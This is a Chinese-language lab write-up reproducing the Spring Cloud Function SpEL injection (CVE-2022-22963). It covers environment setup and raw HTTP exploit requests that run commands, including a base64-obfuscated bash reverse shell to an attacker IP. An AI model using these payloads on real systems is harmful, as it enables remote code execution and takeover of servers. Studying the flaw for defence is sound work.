 # Spring Cloud Function SpEL表达式注入



# 漏洞概述

Spring Cloud Function 是基于Spring Boot 的函数计算框架（FaaS），该项目提供了一个通用的模型，用于在各种平台上部署基于函数的软件，包括像 Amazon AWS Lambda 这样的 FaaS（函数即服务，function as a service）平台。它抽象出所有传输细节和基础架构，允许开发人员保留所有熟悉的工具和流程，并专注于业务逻辑。
在版本3.0.0到当前最新版本3.2.2(commit dc5128b)，默认配置下，都存在Spring Cloud Function SpEL表达式注入漏洞。



# 影响版本
> 3.x<=v3.2.2



# 环境搭建1 - Windows
测试版本：`spring-cloud-function-web 3.2.2`

社区版IDEA配置，在settings中plugins中搜索spring Assistant，安装

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1648561872025-16b39db7-d044-48e5-80ba-08c87b8acb6b.png#clientId=u5b12fd36-c309-4&from=paste&height=445&id=u497c9a48&margin=%5Bobject%20Object%5D&name=image.png&originHeight=890&originWidth=1227&originalType=binary&ratio=1&size=117839&status=done&style=none&taskId=u94a1c777-c9a6-49b0-85e6-ca23018bca9&width=613.5)

创建一个Spring Initializr项目，这里使用JDK1.8

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1648562018543-45c2fd6a-60f3-4881-99f4-e02c13b18204.png#clientId=u5b12fd36-c309-4&from=paste&height=418&id=ue280a4f2&margin=%5Bobject%20Object%5D&name=image.png&originHeight=836&originWidth=1002&originalType=binary&ratio=1&size=47799&status=done&style=none&taskId=u6d86d62e-5d6b-4523-be53-f5adfbeb3d6&width=501)![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1648562930404-565a6005-8aee-4d80-9010-c0e8804aea4c.png#clientId=u5b12fd36-c309-4&from=paste&height=418&id=ub99d6fd3&margin=%5Bobject%20Object%5D&name=image.png&originHeight=836&originWidth=1002&originalType=binary&ratio=1&size=45236&status=done&style=none&taskId=u0b72f8b5-f3e0-4152-81cb-0db00b1274b&width=501)

选择Spring Web和Function作为依赖项，点击Next->Finish

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1648562589621-53e3c3d1-419e-46fd-89e4-ca55ca55dc7c.png#clientId=u5b12fd36-c309-4&from=paste&height=418&id=u43968741&margin=%5Bobject%20Object%5D&name=image.png&originHeight=836&originWidth=1002&originalType=binary&ratio=1&size=49678&status=done&style=none&taskId=u603f48be-aadd-446a-b5dc-c3604b99fc2&width=501)![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1648562648138-37b5c54c-10cf-45d1-85ce-8f7632256685.png#clientId=u5b12fd36-c309-4&from=paste&height=418&id=u66e9348c&margin=%5Bobject%20Object%5D&name=image.png&originHeight=836&originWidth=1002&originalType=binary&ratio=1&size=63260&status=done&style=none&taskId=uf2cd748f-2a91-42ab-a291-774eaf9fff1&width=501)

漏洞环境搭建完成。在官方出新版本后想要复现此漏洞，那么需要修改pom中spring-cloud-function-web的版本为3.2.2，然后Reload project，如下图所示：

![image](https://user-images.githubusercontent.com/84888757/161368569-5d6eae31-029f-4b7d-9aeb-c78ba516ef51.png)


确认项目中的spring-cloud-function-web是存在漏洞版本后，就可以直接启动项目了，无需进行任何修改。（相当于后面提到的**第2种**利用）

启动项目

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1648571080058-964c5042-efa8-4453-8a0b-662fe018504c.png#clientId=ue6416bed-6ec2-4&from=paste&id=u53703f85&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1038&originWidth=1917&originalType=binary&ratio=1&size=230683&status=done&style=none&taskId=uedf2f0f6-0d60-4fda-9308-20b41d3d6f8)

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1648571149730-46de503d-c5f4-4a73-8670-41acd6b79a50.png#clientId=ue6416bed-6ec2-4&from=paste&height=258&id=u0e695281&margin=%5Bobject%20Object%5D&name=image.png&originHeight=258&originWidth=694&originalType=binary&ratio=1&size=21998&status=done&style=none&taskId=u23fc699f-b58b-42bf-86e5-8c10880db23&width=694)





## 第1种利用：需要修改配置+任意路由
```php
POST /axin HTTP/1.1
Host: 127.0.0.1:8080
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("calc")
Content-Length: 12

test0xin rce
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1648577745122-5a60c78f-8a48-40d6-977b-a7c45dbcb23f.png#clientId=u782acaee-1c0f-4&from=paste&height=384&id=btRFS&margin=%5Bobject%20Object%5D&name=image.png&originHeight=384&originWidth=1170&originalType=binary&ratio=1&size=104584&status=done&style=none&taskId=ud9dc7627-79b8-4f2c-b71a-564ca6e8ec5&width=1170)

## 第2种利用：默认配置+特定路由
**为什么会有`/functionRouter`这个路由？**（p神的解答）

官方注册了一个Bean，对应到Spring Cloud Function里就是一个“函数”。
具体可看[/functionRouter路由来源](https://github.com/spring-cloud/spring-cloud-function/blob/28f32d473b079d6eba64169d1547830064020524/spring-cloud-function-context/src/main/java/org/springframework/cloud/function/context/config/ContextFunctionCatalogAutoConfiguration.java#L143)

![image](https://user-images.githubusercontent.com/84888757/162112225-2e5361e5-783c-4394-a1d0-c356776685fd.png)

**复现过程如下**
```php
POST /functionRouter HTTP/1.1
Host: 127.0.0.1:8080
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("calc")
Content-Length: 9

test0 rce
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1648577305263-4866d023-9358-4e32-84d8-27a6f3a67fff.png#clientId=u782acaee-1c0f-4&from=paste&height=568&id=jvCt8&margin=%5Bobject%20Object%5D&name=image.png&originHeight=568&originWidth=1318&originalType=binary&ratio=1&size=84628&status=done&style=none&taskId=u227906d2-e89f-4357-bda3-913ac50346f&width=1318)



---

# 环境搭建2 - Linux
[https://github.com/RanDengShiFu/CVE-2022-22963](https://github.com/RanDengShiFu/CVE-2022-22963)
```shell
docker run -p 9000:9000 --name=CVE-2022-22963 --restart=always -v /poc/CVE-2022-22963/Spring-Cloud-Function-SPEL-RCE/SpringCloud-Function-0.0.1-SNAPSHOT.jar:/root/SpringCloud-Function-0.0.1-SNAPSHOT.jar tomcat:10.1-jdk17-temurin java -jar /root/SpringCloud-Function-0.0.1-SNAPSHOT.jar
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1648721821979-8bbeaa84-1f28-44f6-8b62-445042b5bc6d.png#clientId=u8b1a754e-2b21-4&from=paste&id=u3f7ecee2&margin=%5Bobject%20Object%5D&name=image.png&originHeight=38&originWidth=607&originalType=binary&ratio=1&size=14637&status=done&style=none&taskId=u107f17d4-3068-450e-994f-d730779e960)
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1648721012401-0b6837b4-2e07-4c6a-9bed-f88b1fe88fa3.png#clientId=u8b1a754e-2b21-4&from=paste&id=u4e494d87&margin=%5Bobject%20Object%5D&name=image.png&originHeight=509&originWidth=1841&originalType=binary&ratio=1&size=189860&status=done&style=none&taskId=u6d401ccb-6212-4802-b779-cd65603096d)

## 漏洞利用
🔗 [POC&EXP](https://github.com/chaosec2021/Spring-cloud-function-SpEL-RCE)

从exp提取信息，其实就是环境搭建1中 - 第2种利用方式替换了base64编码后的命令
```shell
POST /functionRouter HTTP/1.1
Host: 192.168.210.164:9000
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzE5Mi4xNjguMjEwLjE1Mi84OTg5IDA+JjE=}|{base64,-d}|{bash,-i}")
Content-Length: 9

test3 rce
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1648723740684-96bbd3c6-2075-4df2-a63c-cef23e0c6a84.png#clientId=u8b1a754e-2b21-4&from=paste&id=uc4da417a&margin=%5Bobject%20Object%5D&name=image.png&originHeight=288&originWidth=1176&originalType=binary&ratio=1&size=48810&status=done&style=none&taskId=uf47efaaf-adac-484f-b1bd-b9487cee218)
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1648723613338-76908e3c-afac-435d-be0e-df5c2cecb161.png#clientId=u8b1a754e-2b21-4&from=paste&id=uf2d5536d&margin=%5Bobject%20Object%5D&name=image.png&originHeight=169&originWidth=611&originalType=binary&ratio=1&size=36051&status=done&style=none&taskId=uf0bb297f-3302-42bf-b636-0e44fa82d75)



# 参考链接
- [https://mp.weixin.qq.com/s/U7YJ3FttuWSOgCodVSqemg](https://mp.weixin.qq.com/s/U7YJ3FttuWSOgCodVSqemg)
- [https://mp.weixin.qq.com/s/MiKWnGuyXTTLQVKjq2E_Gw](https://mp.weixin.qq.com/s/MiKWnGuyXTTLQVKjq2E_Gw)
- [https://mp.weixin.qq.com/s/ssHcLC72wZqzt-ei_ZoLwg](https://mp.weixin.qq.com/s/ssHcLC72wZqzt-ei_ZoLwg)
- [https://mp.weixin.qq.com/s/APiXRwSiEanoIuohjwkoEw](https://mp.weixin.qq.com/s/APiXRwSiEanoIuohjwkoEw)


